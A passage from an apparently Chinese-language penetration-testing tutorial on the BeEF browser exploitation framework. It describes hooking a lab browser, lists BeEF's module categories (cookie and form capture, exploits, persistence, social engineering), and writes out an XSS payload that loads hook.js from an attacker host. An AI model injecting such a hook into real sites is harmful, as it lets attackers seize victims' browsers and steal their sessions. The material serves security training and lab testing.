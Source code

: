 相关的配置文件在目录：`/usr/share/beef-xss/`下的config.yaml中

### 实操：

浏览器输入http://192.168.3.59:3000/demos/butcher/index.html打开默认测试页面

![image-20230513222643172](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513222643172.png)

随后进入http://192.168.3.59:3000/ui/panel页面，就会看到自己被上线

![image-20230513222608120](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513222608120.png)



### 模块命令的使用和模块的作用种类：

**Broser：**主要是针对浏览器的一些信息收集或攻击，其下的子选项卡Hooked Domain主要是获取HTTP属性值，比如cookie、表单值等，还可以做写简单的浏览器操作，比如替换href值，弹出警告框，重定向浏览器等。这个选项卡下的有些模块会根据受害者的浏览器来决定是否显示。主要是浏览器通用操作和其他基本信息检测。
**Chrome extensions：**主要是针对谷歌浏览器扩展插件
**Debug：**调试功能
**Exploits：**漏洞利用，主要利用一些已公开的漏洞进行攻击测试
**Host：**针对主机，比如检测主机的浏览器、系统信息、IP地址、安装软件等等
**IPEC：**协议间通信。主要是用来连接、控制受害者浏览器的
**Metasploit：**Beef可通过配置和metasploit平台联合，一旦有受害者出现，可通过信息收集确定是否存在漏洞，进一步方便metasploit攻击测试
**Misc：**杂项。
**Network：**网络扫描
**Persistence：**维护受害者访问
**Phonegap：**手机测试
**Social engineering：**社会工程学攻击

其中：
绿色模块：可以执行且目标不可见
红色模块：不适合当前目标
橙色模块：可以执行但目标可见
灰色模块：未在目标浏览器上测试过

**比如，**可以使目标主机浏览器发出某种音频

![image-20230513223033972](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513223033972.png)





### 1.构造 POC

#### 首先构造XSS代码

```
<script src="http://192.168.38.129:3000/hook.js"></script>
```

#### 构造 CSRF 代码

 CSRFTester 工具生成 CSRF POC。

![image-20230513231350134](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513231350134.png)
